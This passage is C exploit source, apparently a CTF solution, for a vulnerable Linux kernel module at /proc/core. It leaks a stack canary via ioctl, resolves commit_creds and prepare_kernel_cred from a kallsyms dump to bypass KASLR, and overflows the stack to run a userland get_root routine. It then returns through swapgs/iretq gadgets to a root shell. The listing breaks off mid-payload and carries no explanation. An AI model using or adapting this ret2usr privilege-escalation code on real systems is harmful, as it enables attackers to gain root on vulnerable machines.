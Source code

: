 ```c
void get_shell(void) {
    system("/bin/sh");
}

size_t commit_creds_addr, prepare_kernel_cred_addr, kaslr_offset;
void get_func_addrs() {
    FILE *fd = fopen("/tmp/kallsyms", "r");
    size_t cur_addr;
    char cur_type[0x10];
    char cur_func[0x40];
    char found = 0;

    while ( fscanf(fd, "%lx%s%s", &cur_addr, cur_type, cur_func) ) {
        if (found == 2)
            return;
        if (!strcmp(cur_func, "commit_creds")) {
            commit_creds_addr = cur_addr;
            kaslr_offset = commit_creds_addr - 0xffffffff8109c8e0;
            lg(kaslr_offset);
            lg(commit_creds_addr);
            found++;
        }
        if (!strcmp(cur_func, "prepare_kernel_cred")) {
            prepare_kernel_cred_addr = cur_addr;
            lg(prepare_kernel_cred_addr);
            found++;
        }
    }
}

void get_root() {
    void* (*a)(int) = prepare_kernel_cred_addr;
    void (*b)(void*) = commit_creds_addr;
    (*b)((*a)(0));
}

int main() {

    save_status();
    get_func_addrs();

    size_t pop_rdi_ret, pop_rsi_ret, pop_rdx_ret;
    pop_rdi_ret = kaslr_offset + 0xffffffff81000b2f;
    pop_rsi_ret = kaslr_offset + 0xffffffff810011d6;
    pop_rdx_ret = kaslr_offset + 0xffffffff81021e53;
    size_t swapgs_popfq_ret = kaslr_offset + 0xffffffff81a012da;
    size_t iretq_ret = kaslr_offset + 0xffffffff81050ac2;

    int fd = open("/proc/core", 2);
    size_t buf[0x800];
    ioctl(fd, 0x6677889C, 0x40);
    ioctl(fd, 0x6677889B, buf);
    size_t canary = buf[0];
    lg(canary);

    int i = 0x40/8;
    buf[i++] = canary;
    buf[i++] = 0xdeadbeef;
    buf[i++] = (size_t)get_root;

    buf[i++] = swapgs_popfq_ret;
    buf[i++] = 0;
    buf[i++] = iretq_ret;
```